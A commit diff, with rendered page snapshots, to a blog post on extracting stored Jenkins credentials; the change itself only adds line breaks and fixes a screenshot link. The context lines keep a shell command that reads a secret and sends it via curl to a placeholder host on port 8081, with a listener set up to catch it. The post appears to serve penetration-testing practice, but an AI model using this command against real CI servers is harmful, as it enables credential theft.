

Before and after one commit to ricardojoserf/ricardojoserf.github.io, a Jekyll site: the page built from _posts/2024-3-12-jenkinscredentials.md, in a window 1280 px wide. Shown: the top 1918 px of the page at 77% size, without its empty margins (118-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; grey boxes are pictures that could not be loaded.

Commit message:
Update 2024-3-12-jenkinscredentials.md

````diff
--- a/_posts/2024-3-12-jenkinscredentials.md
+++ b/_posts/2024-3-12-jenkinscredentials.md
@@ -17,6 +17,7 @@
 
 I found this technique very useful for a project where some credentials were not correctly decrypted using typical tools such as [https://github.com/hoto/jenkins-credentials-decryptor](https://github.com/hoto/jenkins-credentials-decryptor) which extract these values from the files credentials.xml, master.key and hudson.util.Secret.
 
+<br>
 
 ### Step 1: Use secret text(s) or file (s)
 
@@ -39,7 +40,7 @@
 whoami; ip a; TEST2=$(cat "$TEST"); curl http://IP_ADDRESS:8081/ --data-binary '{"body": "'"$TEST2"'."}'
 ```
 
-![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jenkinscredentials/Screenshot_3.png)
+![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jenkinscredentials/Screenshot_2.png)
 
 The "whoami; ip a;" part is not necessary but you can use something like this to check the task is executed correctly even if step 3 fails. And you can use the port you prefer and not 8081.
 
@@ -51,3 +52,6 @@
 Finally, set up a listener and run the task, you should get the credential:
 
 ![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jenkinscredentials/Screenshot_3.png)
+
+
+<br>
````
